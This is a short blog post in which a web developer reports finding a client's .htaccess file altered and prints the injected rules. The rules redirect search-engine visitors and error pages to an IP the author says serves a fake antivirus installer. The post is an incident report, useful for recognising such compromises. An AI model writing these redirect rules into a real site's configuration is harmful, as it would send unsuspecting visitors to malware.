 ```yaml
---
layout: post
title: ".htaccess hacked"
custom_v2_id: 50
---
```


Today a client called me telling me that its website was unavailable, or more
exactly that the full content of the FTP was displayed instead of its
homepage.

After a little investigation it appears that the .htaccess file had been
modified, here was the content I found :


```apache
RewriteEngine On
ErrorDocument 400 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 401 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 403 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 404 http://217.23.5.232/hitin.php?land=20&affid=20116
ErrorDocument 500 http://217.23.5.232/hitin.php?land=20&affid=20116
RewriteCond %{HTTP_REFERER} .*google.* [OR]
RewriteCond %{HTTP_REFERER} .*ask.* [OR]
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]
RewriteCond %{HTTP_REFERER} .*excite.* [OR]
RewriteCond %{HTTP_REFERER} .*altavista.* [OR]
RewriteCond %{HTTP_REFERER} .*msn.* [OR]
RewriteCond %{HTTP_REFERER} .*netscape.* [OR]
RewriteCond %{HTTP_REFERER} .*aol.* [OR]
RewriteCond %{HTTP_REFERER} .*hotbot.* [OR]
RewriteCond %{HTTP_REFERER} .*goto.* [OR]
RewriteCond %{HTTP_REFERER} .*infoseek.* [OR]
RewriteCond %{HTTP_REFERER} .*mamma.* [OR]
RewriteCond %{HTTP_REFERER} .*alltheweb.* [OR]
RewriteCond %{HTTP_REFERER} .*lycos.* [OR]
RewriteCond %{HTTP_REFERER} .*search.* [OR]
RewriteCond %{HTTP_REFERER} .*metacrawler.* [OR]
RewriteCond %{HTTP_REFERER} .*bing.* [OR]
RewriteCond %{HTTP_REFERER} .*dogpile.*
RewriteRule ^(.*)$ http://217.23.5.232/hitin.php?land=20&affid=20116 [R=301,L]
```

A little search online told me that this IP refer to a malware website
launching a fake Antivirus software installation.

I have no idea how the `.htacces`s got modified, but I changed the FTP password.

